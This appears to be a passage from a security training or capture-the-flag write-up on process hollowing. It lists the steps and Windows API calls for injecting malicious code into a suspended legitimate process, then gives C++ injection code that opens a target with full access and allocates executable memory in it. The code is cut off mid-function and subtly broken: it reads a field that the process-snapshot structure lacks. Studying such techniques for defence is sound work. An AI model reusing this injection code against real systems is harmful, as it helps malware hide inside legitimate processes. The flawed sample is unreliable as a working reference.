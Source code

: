 ## Task 8  Process Hollowing: Overview

Process hollowing is a technique used by malware to inject malicious code into a legitimate process running on a victim's computer. The process is as follow:

1. Create a legitimate process like notepad and suspend it. `CreateProcessA()`/`NtSuspendProcess()`
2. Allocate new memory of the size of the malicious code in the suspended process and write the code into it. `VirtualAllocEx()`/`WriteProcessMemory()`
3. Modify the entry point of the process to point to the address of the malicious code. `GetThreadContext()`/`SetThreadContext()`
4. Resume the rogued suspended process in order to execute the malicious code. `NtResumeProcess()`
5. Clean up the process and any ressource used.

To get a better understanding of the technique, a sample C++ code is available below:

``` cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

using namespace std;

/**
 * HollowProcess - Replaces the code of a target process with that of a source process.
 * @param szSourceProcessName: Path to the source executable.
 * @param szTargetProcessName: Name of the target process to be hollowed.
 * @return: True if the process hollowing was successful, false otherwise.
 */
bool HollowProcess(char *szSourceProcessName, char *szTargetProcessName)
{
    // Take a snapshot of all processes in the system
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);

    // Iterate over the process list to find the target process
    if (Process32First(hSnapshot, &pe))
    {
        do
        {
            if (_stricmp((const char*)pe.szExeFile, szTargetProcessName) == 0)
            {
                // Open the target process with all access rights
                HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe.th32ProcessID);
                if (hProcess == NULL)
                {
                    return false;
                }

                IMAGE_DOS_HEADER idh;
                IMAGE_NT_HEADERS inth;
                IMAGE_SECTION_HEADER ish;

                DWORD dwRead = 0;

                // Read the DOS header and NT headers of the target process
                ReadProcessMemory(hProcess, (LPVOID)pe.modBaseAddr, &idh, sizeof(idh), &dwRead);
                ReadProcessMemory(hProcess, (LPVOID)(pe.modBaseAddr + idh.e_lfanew), &inth, sizeof(inth), &dwRead);

                // Allocate memory in the target process for the source image
                LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, inth.OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
                if (lpBaseAddress == NULL)
```